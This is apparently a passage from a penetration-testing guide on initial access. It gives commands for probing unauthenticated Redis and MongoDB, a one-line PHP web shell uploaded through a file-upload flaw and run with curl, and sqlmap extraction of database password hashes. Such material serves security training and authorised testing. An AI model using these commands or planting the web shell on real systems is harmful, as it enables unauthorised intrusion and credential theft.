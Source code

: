 ### Redis

```bash
# Test for no authentication (from reconnaissance)
redis-cli -h TARGET ping

# If PONG, you have access
redis-cli -h TARGET
# Now in Redis CLI - exploitation is separate file
```

### MongoDB

```bash
# Try connection without authentication
mongosh --host TARGET

# If successful, you have access
# Enumeration and exploitation is separate
```

---

## Web Application Initial Access

### Exploiting File Upload for Shell

**After finding file upload vulnerability during recon:**

```bash
# Create simple PHP shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload via the application
# (Use discovered upload functionality)

# Find uploaded file location
gobuster dir -u http://TARGET/uploads/ -w /usr/share/wordlists/dirb/common.txt

# Test shell
curl "http://TARGET/uploads/shell.php?cmd=id"
```

**Getting reverse shell is next step,**

### SQL Injection to Access

**Execute SQL injection (from findings during recon):**

```bash
# Extract database credentials
sqlmap -u "http://TARGET/page.php?id=1" --passwords --batch

# Save credentials for testing
```
---
